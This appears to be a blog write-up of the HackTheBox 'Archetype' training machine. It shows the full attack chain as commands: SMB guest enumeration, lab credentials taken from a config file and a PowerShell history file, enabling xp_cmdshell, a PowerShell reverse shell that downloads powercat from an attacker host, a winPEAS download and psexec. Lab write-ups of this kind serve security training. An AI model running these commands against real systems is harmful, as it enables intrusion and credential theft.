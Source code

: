 ```yaml
---
layout: post
title: HackTheBox Archetype
subtitle: StartingPoint Archetype Exam WriteUp
author: g3rm
categories: 
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - HTB
  - WriteUp
sidebar:
---
```



## Summary
![](assets/images/posts/2025-03-06-Archetype/c7aa0835353bb4a42ec1fb12fcdc3a18_MD5.jpeg)
## Target - 10.129.68.227
### Open Port
```bash
nmap -sC -sV -Pn -oN Archetype 10.129.68.227
```
![](assets/images/posts/2025-03-06-Archetype/1e4da9b4abb6d6341988fa1a18d32841_MD5.jpeg)
### SMB Enum (Guest Auth)
```bash
crackmapexec smb 10.129.68.227 -u 'guest' -p '' --shares
crackmapexec smb 10.129.68.227 -u 'guest' -p '' --spider backups --regex .

# ARCHETYPE\sql_svc : M3g4c0rp123
smbclient \\\\10.129.68.227\\backups -U 'guest' --password=''
get prod.dtsConfig
cat prod.dtsConfig
```

![](assets/images/posts/2025-03-06-Archetype/d16001211c17989921ca9d7924123219_MD5.jpeg)![](assets/images/posts/2025-03-06-Archetype/2b3979fe8f0430bac8990e09ff6483da_MD5.jpeg)

### mssql RCE
```bash
impacket-mssqlclient ARCHETYPE/sql_svc:M3g4c0rp123@10.129.68.227 -windows-auth

# xp_cmdshell 활성화
EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
# oneline reverse shell
EXEC xp_cmdshell 'powershell -c "IEX (New-Object System.Net.Webclient).DownloadString(\"http://10.10.14.11:8000/powercat.ps1\");powercat -c 10.10.14.11 -p 4444 -e powershell"';
```

![](assets/images/posts/2025-03-06-Archetype/9c5ab89e51a73bef43ca35e9513680a4_MD5.jpeg)![](assets/images/posts/2025-03-06-Archetype/ddd88b5c3111a3ccd4219434fe508f7a_MD5.jpeg)

### winPEAS
```powershell
iwr -uri http://10.10.14.11:8000/winPEASx64.exe -OutFile winPEAS.exe
.\winPEAS.exe

# history 열람 administrator : MEGACORP_4dm1n!!
type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

![](assets/images/posts/2025-03-06-Archetype/6c6a769b01b337f5043407c95d2f9261_MD5.jpeg)![](assets/images/posts/2025-03-06-Archetype/779e533c4fb09c41b3407c229dd160a4_MD5.jpeg)
![](assets/images/posts/2025-03-06-Archetype/9781a5273a3edd4de922675970ed39f5_MD5.jpeg)

### impacket-psexec
```bash
# runas의 경우 reverse shell이 non-interactive 여서 Password 입력 불가
impacket-psexec administrator:MEGACORP_4dm1n\!\!@

```